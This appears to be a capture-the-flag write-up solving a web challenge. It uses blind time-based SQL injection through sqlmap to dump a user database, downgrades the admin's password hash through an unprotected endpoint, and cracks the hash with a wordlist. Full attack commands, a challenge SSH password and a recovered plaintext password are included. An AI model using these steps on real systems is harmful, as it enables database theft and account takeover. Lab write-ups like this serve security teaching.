

# Solution

Starting by looking through the code, we can note a few interesting things.

- MySQL driver are use.
- There is a changeHash endpoint that changes the hash algorithm for a user using userid and is not protected.
- There is an input that is not sanitized in the getUserID endpoint which make it vulnerable to SQL injection, but it is not directly use in a login form and no data is returned.
- In the register endpoint, if trying to register with an existing username, it will return the userid of the username in the URL.
- We can see to the database schema.

For this solution, we start by defining the IP and port of the server.

```shell
ip=<ip>
port=<port>
```

## UserID

Then we register a user with the username admin so we can get the userid.

```shell
curl  -Ls -o /dev/null -w %{url_effective} "http://$ip:$port/register" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'username=admin&password=password&email=email%40mail.com&name=name' \
  --insecure
```

So admin userid is 1.

## SQLi

SQL injection is possible in the getUserID endpoint. Since we do not get any data back and is not use in a login form, we can use a blind time-based injection to get the hash of the password. Using SQLMap, since this type of injection is really slow, we can order by id, which will start with 1 and therefore start with the admin and we can also use the ssh client offered to reduce network lag with the password `marbled-casino-zodiac-composer` and do a ping sweep to detect the ip of the webserver.
Since the injection is on the username, we should use a username that doesn't exist. Otherwise, the server calculate the hash everytime, which takes a lot of time for bcrypt 16. 

```shell
ssh user@<ip_client>
bash
ifconfig
for i in {1..254} ;do (ping -c 1 <base_ip>.$i | grep "bytes from" &) ;done
```

```shell
sqlmap -u "http://$ip:$port/login"  --data 'username=ausndbaiusdbniand&password=test' -C id,password_hash,salt -T Users -D userDB --dump  --batch --dbms MySQL -p username --technique=T
```

When we see that it starts with `$2a$16$`, which is 'bcrypt' with 16 rounds, we can stop since it is very slow to crack.


## Change Hash

Get the hashing algorithms:

```shell
sqlmap -u "http://$ip:$port/login"  --data 'username=ausndbaiusdbniand&password=test' -C id,algo,round -T HashingAlgorithm -D userDB --dump  --batch --dbms MySQL -p username --technique=T

Database: userDB
Table: HashingAlgorithm
[3 entries]
+----+-------------+-------+
| id | algo        | round |
+----+-------------+-------+
| 1  | bcrypt      | 10    |
| 2  | sha256      | 64    |
| 3  | blake2b_256 | 1     |
+----+-------------+-------+
```


We can change the hashing algorithm of the admin for blake2b with 1 round, which is very fast to crack.

```shell
curl "http://$ip:$port/changeHash" \
  --data-raw 'userid=1&algoid=3' \
  --insecure
```

Next time, the admin login, the password will be changed. In the information given in the challenge and in the admin_login.sh script, we can see it should be every 30 seconds.

## SQLi 2

Running SQLMap again, we can see that the hash is now blake2b with 1 round.

```shell
sqlmap -u "http://$ip:$port/login"  --data 'username=ausndbaiusdbniand&password=test' -C id,password_hash,salt -T Users -D userDB --dump  --batch --dbms MySQL -p username --technique=T --flush-session

+----+------------------------------------------------------------------+------------+
| id | password_hash                                                    | salt       |
+----+------------------------------------------------------------------+------------+
| 1  | 1a5708112d2d7df23e4b2d5b60d5470e8cd01ce48ed8d5dae8d32901d91dc326 | WKgDlQLWIE |
+----+------------------------------------------------------------------+------------+
```



## Crack

Using a simple script like solve.go, we can crack the hash in a few seconds.

```shell
go run solve.go 1a5708112d2d7df23e4b2d5b60d5470e8cd01ce48ed8d5dae8d32901d91dc326 WKgDlQLWIE rockyou.txt
Password found:  drakthull1
```

So the flag is: `flag-drakthull1`
